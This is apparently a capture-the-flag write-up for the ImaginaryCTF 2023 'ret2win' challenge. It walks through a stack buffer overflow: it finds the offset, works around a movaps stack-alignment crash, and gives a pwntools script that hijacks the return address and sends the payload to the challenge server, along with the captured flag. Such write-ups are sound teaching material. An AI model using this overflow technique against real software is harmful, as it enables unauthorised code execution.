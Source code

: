 ```yaml
---
title: ImaginaryCTF 2023 - ret2win
description: Writeup for ret2win pwn challenge
date: 2023-12-18
tldr: Can you overflow the buffer and get the flag?
draft: false
tags: ["ctf", "writeup", "pwn"]
---
```


# ret2win

Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

Attachments
https://imaginaryctf.org/r/BoCID#vuln https://imaginaryctf.org/r/73iLJ#vuln.c nc ret2win.chal.imaginaryctf.org 1337


# lets find where the entrypoint to the function win is 

0040117a

# RIP

padding until we overwrite stack pointer

123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100


setting a breakpointin edb at the ret on the end of main we see that this leads to 

return to `0x3434343334323431`


# 

hardening-check vuln
vuln:
 Position Independent Executable: no, normal executable!
 Stack protected: no, not found!
 Fortify Source functions: no, only unprotected functions found!
 Read-only relocations: yes
 Immediate binding: no, not found!
 Stack clash protection: unknown, no -fstack-clash-protection instructions found
 Control flow integrity: yes


## Executing the win function


doing just `./vuln <<< $(python -c "print(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz\x11@\x00\x00\x00\x00\x00'.decode())"`

we see 

```
==3974== Process terminating with default action of signal 11 (SIGSEGV)
==3974==  General Protection Fault
==3974==    at 0x48B3603: do_system (system.c:148)
==3974==    by 0x401195: win (in /mnt/ctfa/ret2win/vuln)
```

most likely we are having problems with stack aligment this exploit works but segfaults on `movaps` instruction when executing the `libc` `system`

https://ropemporium.com/guide.html

> The MOVAPS issue. If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so lets just skip this initial push to `ebp` by adding 8 to the adress skipping some initial instructions of the win function


```python
#!/usr/bin/env python3
from pwn import *

#--------Setup--------#

context(arch="amd64", os="linux")
elf = ELF("vuln", checksec=False)
print(elf)
print(elf.sym)
ret2win = elf.sym["win"]
print(ret2win)
pattern = cyclic(1024)
print(pattern)

offset = len("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

log.info(f"{offset = }")

#--------ret2text--------#

ret2win = elf.sym["win"]
print(hex(ret2win+8))
payload = flat(
    b"\x00"*offset,
    p64(ret2win+8),
)
print(payload)

p = elf.process()

p.sendline(payload)
s = p.recvline()
print(s)
conn = remote('ret2win.chal.imaginaryctf.org',1337)
s = conn.recvline()
print(s)
conn.sendline(payload)
s = conn.recvline()
print(s)

```


`ictf{r3turn_0f_th3_k1ng?}`